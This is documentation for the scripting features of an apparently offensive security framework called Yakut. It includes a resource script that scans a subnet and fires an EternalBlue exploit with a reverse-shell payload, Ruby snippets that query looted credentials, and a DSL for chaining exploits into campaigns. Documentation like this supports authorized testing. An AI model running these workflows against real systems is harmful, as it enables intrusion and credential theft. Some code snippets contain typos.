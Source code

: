 # Scripting & Automation

- [Scripting \& Automation](#scripting--automation)
  - [1. Yakut's Automation Approaches](#1-yakuts-automation-approaches)
  - [2. Resource Scripts (`.yrc` Files)](#2-resource-scripts-yrc-files)
      - [Format](#format)
      - [Usage](#usage)
      - [Example `scan_and_exploit.yrc`](#example-scan_and_exploityrc)
  - [3. Embedded Ruby Scripting (`ruby_eval` and `irb`)](#3-embedded-ruby-scripting-ruby_eval-and-irb)
      - [Example `ruby_eval`](#example-ruby_eval)
  - [4. `Orchestration` Capabilities (Advanced Automation \& Campaigns)](#4-orchestration-capabilities-advanced-automation--campaigns)
      - [Running Other Capabilities](#running-other-capabilities)
      - [Conditional Logic](#conditional-logic)
      - [Human-in-the-Loop Prompts](#human-in-the-loop-prompts)
      - [Usage](#usage-1)
  - [5. Choosing the Right Automation Approach](#5-choosing-the-right-automation-approach)

## 1. Yakut's Automation Approaches

Yakut provides several mechanisms for scripting and automation, catering to different
levels of complexity and user needs:

- **Resource Scripts (`.yrc` files):** Simple batch files containin sequences of Yakut console commands.
- **Embedded Ruby Scripting:** Direct execution of Ruby code within the Yakut console.
- **`Orchestration` Capabilities:** The most powerful approach, allows for the development of complex, stateful and conditional attack workflows using a dedicated Ruby DSL.

## 2. Resource Scripts (`.yrc` Files)

Resource scripts are the simplest way to automate a sequence of Yakut console commands.

#### Format

A plain text file where each line is a command exactly as you would type it into the Yakut console. Comments can typically be added using `#`.

#### Usage

To execute a resource script:

```
yakut > resource /path/to/your_script.yrc
```

You can also potentially launch `yakut-console` with a resource script to be executed immediately.

```bash
./bin/yakut-console -r /path/to/your_script.yrc
```

#### Example `scan_and_exploit.yrc`

```ruby
# scan_and_exploit.yrc - Example Yakut resource script
# Ensure a workspace is active before running this.

# Set target range for this script
setg RHOSTS 192.168.1.0/24

# Use a reconnaissance capability
capability use recon/network/fast_portscan
set RHOSTS ${RHOSTS}
set PORTS 22,80,443,445
run

# After that, a conditional logic would be more robust with Orchestration Capabilities

# Attempt a common SMB exploit if port 445 is found (example)
capability use exploit/windows/smb/eternalblue_ms17010
set RHOSTS ${RHOSTS} # Needs a way to filter based on open ports from previous step
set PAYLOAD windows/x64/yakut_agent/reverse_tcp
pset LHOST tun0
pset LPORT 4444
run

# List any sessions opened
sessions list
```

## 3. Embedded Ruby Scripting (`ruby_eval` and `irb`)

For more dynamic automation and direct interaction with Yakut's internals from the
console, you can use `ruby_eval` command or drop into an IRB session within Yakut's
context.

#### Example `ruby_eval`

```ruby
yakut [ws:ACME_Corp_Q3_Audit] > ruby_eval do |yk|
  puts "[*] Automating SMB scan for all Windows targets in workspace: #{yk.workspace.current.name}"
  windows_targets = yk.cognition.targets.where(os: /Windows/i, workspace_id: yk.workspace.current.id)

  if windows_targets.empty?
    puts "[-] No Windows targets found."
  else
    smb_scanner = yk.operations.find_capability("recon/network/smb_version_scan")

    unless smb_scanner
      puts "[-] SMB version scanner capability not found."
      return
    end

    windows_targets.each do |target|
      puts "[*] Scanning SMB on #{target.address}..."
      opts = { 'RHOSTS' => target.address }
      yk.operations.run_capability_async(smb_scanner.ref_name, opts)
    end

    puts "[+] SMB scans initiated for #{window_targets.count} targets. Check 'jobs list'."
  end
end
```

- `irb` (within Yakut context):
  - `irb` would drop you into a full Interactive Ruby Shell (IRB) session that has the Yakut framework environment loaded.
  - You'd have direct access to Yakut's classes and objects.

```ruby
yakut [ws:ACME_Corp_Q3_Audit] > irb
[*] Entering Yakut IRB session... Acces framework via 'yakut_kernel' or 'yk'.

irb(yakut):001:0> yk.workspace.current.targets.count
=> 15
irb(yakut):002:0> creds = yk.cognition.loot.where(type: 'creds', workspace_id: yk.workspace.current.id)
=> [...]
irb(yakut):003:0 > exit
[*] Exiting Yakut IRB session...
yakut [ws:ACME_Corp_Q3_Audit] >
```

## 4. `Orchestration` Capabilities (Advanced Automation & Campaigns)

This is Yakut's most powerful and recommended approach for complex automation, attack
chain simulation and campaign management.

- **Definition:** `Orchestration` Capabilities are special typs of capabilities written in Ruby, using a dedicated DSL provided by Yakut's `CampaignOrchestrator`. They define workflows, conditional logic, state management and interactions with other capabilities.
- **Purpose:**
  - To automate multi-stage attack scenarios (e.g., recon -> vulnerability scan -> exploit -> post-exploitation -> exfiltration).
  - To implement adaptive responses based on the outcome of previous steps.
  - To manage long-running campaigns with specific objectives.
  - To allow for human-in-the-loop decision points within an automated workflow.

#### Running Other Capabilities

```ruby
# Within an Orchestration capability's run method
stage "Initial Reconnaissance" do
  results = run_capability('recon/network/host_discovery_fast',
    { 'RHOSTS' => datastore['TARGET_RANGE'] },
    fail_on_error: false)

  store_state(:live_hosts, resuts.hosts) if results&.success?
end
```

#### Conditional Logic

```ruby
stage "Vulnerability Exploitation" do
  get_state(:live_hosts).each do |host|
    if host.has_service?(port: 445, product: /Samba/i) && host.has_vuln?('CVE-2017-0144')
      run_capability('exploit/linux/samba/eternal_samba_variant', { 'RHOSTS' => host.ip, ...})
    end
  end
end
```

#### Human-in-the-Loop Prompts

```ruby
stage "Critical Action" do
  if user_confirm("Attempt to exploit Domain Controller #{dc_host.ip} with high-risk exploit?")
    run_capability('exploit/windows/rpc/dangerous_dc_exploit', { 'RHOSTS' => dc_host.ip })
  else
    log_info("User skipped DC exploitation")
  end
end
```

#### Usage

```console
yakut > capability use orchestration/campaign/full_internal_compromise
yakut [cap:orchestration/campaign/full_internal_compromise] > set TARGET_RANGE 10.10.0.0./16
yakut [cap:orchestration/campaign/full_internal_compromise] > run
```

## 5. Choosing the Right Automation Approach

- **Simple, linear command sequences:** Use Resoure Scripts (`.yrc`).
- **Quick, interactive scripting with framework access:** Use `ruby_eval` or the `irb` console.
- **Complex, stateful, conditional, multi-stage operations or campaign automation:** Develop an `Orchestration` Capability.
